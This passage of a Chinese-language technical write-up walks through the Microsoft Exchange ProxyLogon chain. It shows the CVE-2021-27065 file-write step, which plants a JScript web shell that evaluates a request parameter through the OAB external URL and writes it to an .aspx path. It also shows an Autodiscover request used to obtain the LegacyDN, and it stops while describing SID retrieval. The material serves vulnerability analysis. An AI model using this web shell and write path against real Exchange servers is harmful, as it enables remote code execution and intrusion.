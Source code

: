 **No.5 CVE-2021–27065**

CVE-2021–27065 是⼀个任意⽂件写⼊漏洞，相⽐于 CVE-2021–26855 简单得多。 ⾸先需要⼀个管理员账号，进⼊ Servers->Virtual Directories->OAB

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVj5U5WuSlmmyiclXwTVYUch8wb0NY1voABjEqUkcJLoIictIibF23mrVJQAIqiavVzdf2TwlFGptSrQQ/640?wx_fmt=png)

编辑 OAB 配置，在外部链接中写⼊ shell 并保存。

```
http://aaa/<script language="JScript" runat="server">function Page_Load()
{eval(Request["orange"],"unsafe");}</script>
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVj5U5WuSlmmyiclXwTVYUch8jrQZ7rFhb0z3enjfKarx9ljSGIwVniaswnJ8Q8mDhdAokmxfsf8TLw/640?wx_fmt=png)

接下来输⼊⽂件路径并重置。

```
\\127.0.0.1\c$\inetpub\wwwroot\aspnet_client\1chig0.aspx
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVj5U5WuSlmmyiclXwTVYUchs7UjvQgdIh8C6dHH8rx4W3NHwRJRFQSSCukIgklsY4FscsASw2Ie3Q/640?wx_fmt=png)

shell 即可成功写⼊。

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVj5U5WuSlmmyiclXwTVYUchHtouTWGk6l1yUTwKhJ71SwwFmRVQJdQo0hXXyHnMSEFoIWiapebCkyw/640?wx_fmt=png)

**No.6 两者配合写⼊ shell**

由于漏洞内容较为敏感，⼤部分⽂章到这⾥的分析很少。我们通过对协议分析以及⾃⼰的理解，还原了 proxylogon 的技术细节。

**获取 LegacyDN**

Autodiscover 是 Exchange 中的⼀个服务，该服务可以帮助客户端（例如 Outlook）以最少的⽤户输⼊来进⾏电⼦邮箱的配置。因为在前⽂提到的 SSRF 中需要获知后端服务器即 Exchange 服务器的 FQDN，因此可以利⽤该服务。 

Autodiscover 的请求格式可以在官⽅⽂档 [6] 中找到。

```
<Autodiscover
xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema
/2006">
  <Request>
 <EMailAddress>Administrator@exploittest.xyz</EMailAddress>
 
<AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/ou
tlook/responseschema/2006a</AcceptableResponseSchema>
  </Request>
</Autodiscover>
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVj5U5WuSlmmyiclXwTVYUchIykhkpNllUiasUZpJvK5Y8qDV91G6Fu8AW6wsc7zT7zXDaUcLRdH8RA/640?wx_fmt=png)

**获取 SID**

消息处理 API（MAPI）是 Outlook ⽤于接收和发送电⼦邮件相关信息的 API，在 Exchange 2016 以及 2019 当中，微软⼜为其加⼊了 MAPI over HTTP 机制，使得 Exchange 和 Outlook 可以在标准的 HTTP 协议模型之下利⽤ MAPI 进⾏通信。整个 MAPI over HTTP 的协议标准可以在官⽅⽂档中查询。为了获取对应邮箱的 SID，如下图所示的 exploit 中利⽤了⽤于发起⼀个新会话的 Connect 类型请求。
